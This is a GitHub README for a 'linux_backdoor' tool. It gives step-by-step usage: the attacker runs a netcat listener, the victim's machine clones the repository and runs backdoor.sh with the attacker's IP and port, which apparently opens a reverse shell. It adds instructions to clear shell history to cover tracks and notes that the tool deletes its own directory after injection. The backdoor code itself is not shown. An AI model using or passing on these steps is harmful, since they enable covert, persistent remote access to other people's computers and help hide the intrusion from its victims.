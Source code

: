 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   $ nc -lvnp 443
   
  ~ Victim's PC ~

  $ git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  $ cd linux_backdoor
  
  $ chmod +x *
  
  $ bash backdoor.sh (Attacker IP) (Port)
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)


  Clearing Tracks :
  
   ~ Victim's PC ~
  
  $ history -c

  
  Note :

=================================================================================================================
|  You have to keep netcat listner(nc -lvnp 443) started whenever the victim's PC is on so you will get access  |
=================================================================================================================
  
===================================================================================================================  
|  Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's PC. |
===================================================================================================================
